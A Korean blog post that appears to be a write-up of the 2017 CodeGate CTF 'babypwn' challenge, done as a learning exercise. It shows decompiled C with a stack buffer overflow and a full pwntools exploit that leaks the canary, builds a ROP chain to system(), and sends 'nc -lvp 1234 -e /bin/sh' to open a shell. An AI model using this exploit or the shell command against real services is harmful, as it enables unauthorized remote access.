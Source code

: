```yaml
---
layout: post
title: "2017 CodeGate babypwn Write up"
excerpt: "Canary&ROP를 공부하기 적합한 문제"
date: 2020-08-17
categories: [system, ctf]
comments: true
---
```


이번에는 보호기법 중 StackCanary를 우회하여 32bit rop를 하는 문제를 풀어보았다. 

<h3> 0x0. Binary
</h3>

| canary  | fortify  | nx      | pie      | relro   |
| ------- | -------- | ------- | -------- | ------- |
| enabled | disabled | enabled | disabled | partial |



<h3>0x1. main
</h3>
코드의 메인을 확인해보면 그냥 소켓통신을 위한 코드인 것 같다.

```c
unsigned int __cdecl main(int a1, char **a2)
{
  socklen_t addr_len; // [esp+20h] [ebp-30h]
  int optval; // [esp+24h] [ebp-2Ch]
  int v5; // [esp+28h] [ebp-28h]
  struct sockaddr addr; // [esp+2Ch] [ebp-24h]
  struct sockaddr v7; // [esp+3Ch] [ebp-14h]
  unsigned int v8; // [esp+4Ch] [ebp-4h]

  v8 = __readgsdword(0x14u);
  if ( a1 == 2 )
    v5 = atoi(a2[1]);
  else
    v5 = 8181;
  dword_804B1BC = socket(2, 1, 0);
  if ( dword_804B1BC == -1 )
  {
    perror("[!] socket Error!");
    exit(1);
  }
  addr.sa_family = 2;
  *(_WORD *)addr.sa_data = htons(v5);
  *(_DWORD *)&addr.sa_data[2] = 0;
  bzero(&addr.sa_data[6], 8u);
  optval = 1;
  setsockopt(dword_804B1BC, 1, 2, &optval, 4u);
  if ( bind(dword_804B1BC, &addr, 0x10u) == -1 )
  {
    perror("[!] bind Error!");
    exit(1);
  }
  if ( listen(dword_804B1BC, 1024) == -1 )
  {
    perror("[!] listen Error!");
    exit(1);
  }
  while ( 1 )
  {
    while ( 1 )
    {
      addr_len = 16;
      fd = accept(dword_804B1BC, &v7, &addr_len);
      if ( fd != -1 )
        break;
      perror("[!] accept Error!");
    }
    if ( !fork() )
      break;
    close(fd);
    while ( waitpid(-1, 0, 1) > 0 )
      ;
  }
  sub_8048B87();
  close(dword_804B1BC);
  close(fd);
  return __readgsdword(0x14u) ^ v8;
}
```

코드를 확인해보면 특별한 값이 없으면 8181포트를 연결한다. 그럼 이제 sub_8048B87등의 기타 함수를 보자.

사실상 메인으로 보여지는 sub_8048A71()

```c
unsigned int sub_8048A71()
{
  int v1; // [esp+1Ch] [ebp-3Ch]
  char v2; // [esp+24h] [ebp-34h]
  unsigned int v3; // [esp+4Ch] [ebp-Ch]

  v3 = __readgsdword(0x14u);
  memset(&v2, 0, 0x28u);
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        sub_80488B1("\n===============================\n");
        sub_80488B1("1. Echo\n");
        sub_80488B1("2. Reverse Echo\n");
        sub_80488B1("3. Exit\n");
        sub_80488B1("===============================\n");
        v1 = sub_804895A();
        if ( v1 != 1 )
          break;
        sub_80488B1("Input Your Message : ");
        sub_8048907(&v2, 100);
        sub_80488B1(&v2);
      }
      if ( v1 != 2 )
        break;
      sub_80488B1("Input Your Message : ");
      sub_8048907(&v2, 100);
      sub_80489C8(&v2);
      sub_80488B1(&v2);
    }
    if ( v1 == 3 )
      break;
    sub_80488B1("\n[!] Wrong Input\n");
  }
  return __readgsdword(0x14u) ^ v3;
}
```

를 보면 변수의 메모리는 40인데 입력값을 100을 받는걸 볼 수 있고, 여기서 Bof 취약점이 발생한다.



<h3>0x2 Exploit Vector</h3>

이제는 어떻게 공격을 해보면 좋을지 생각해보자.  일단 Bof를 이용해야 하는데 NX bit가 있으므로 ROP를 이용할거다. 그리고 canary가 있으니 canary leak을 해야한다.

우선 canary값을 leak하는 코드이다 . 40바이트만 찍으면 나와야 하는데 41바이트를 해야 출력되는걸 봐서는 canary의 첫 바이트는 0x00임을 알 수 있다. 

```python
from pwn import *

p = remote('localhost',8181)
e = ELF("./babypwn")

ppppr = 0x08048eec
recv_plt = e.plt['recv']
system_plt = e.plt['system']

cmd = 'nc -lvp 1234 -e /bin/sh'

#stack canary leak
p.sendlineafter('> ','1')
p.sendafter(': ','A'*41)
leak = p.recv(1024)[41:44]
canary = u32('\x00' +leak)
print "[+] Stack Canary Leak :" +hex(canary)


p.close()

p = remote('localhost',8181)

p.sendlineafter('> ','1')

#ROP
pay = 'A'*40
pay +=  p32(canary)
pay += 'A'*12

pay += p32(recv_plt)
pay += p32(ppppr)
pay += p32(4)
pay += p32(e.bss())
pay += p32(len(cmd)+1)
pay += p32(0)

pay += p32(system_plt)
pay += 'A'*4
pay += p32(e.bss())

p.sendlineafter(': ', pay)
p.sendlineafter('> ','3')

sleep(1)

p.sendline(cmd)
```



이 문제는 리버스 커넥션을 이용하여 해결하였다. 거진 두달만에 ctf문제를 풀어보는 것 같은데, 많이 분발해야겠다. 

아직도 카나리를 릭하는걸 잘 못하겠다. + 리버스 커넥션 개념도 이번에 처음 이용해보았는데 좀 더 알고 써야겠다.
